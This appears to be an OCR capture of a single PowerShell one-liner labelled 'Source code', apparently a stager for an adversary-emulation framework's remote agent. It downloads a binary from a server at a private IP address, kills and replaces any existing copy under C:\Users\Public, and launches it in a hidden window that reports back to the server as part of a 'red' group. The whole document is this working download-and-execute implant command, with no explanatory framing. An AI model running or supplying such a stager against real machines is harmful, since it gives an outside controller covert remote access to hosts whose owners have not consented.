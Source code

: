$server="http://10.99.154.145:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\AgentBlue.exe"} | stop-process -f;rm -force "C:\Users\Public\AgentBlue.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\AgentBlue.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\AgentBlue.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
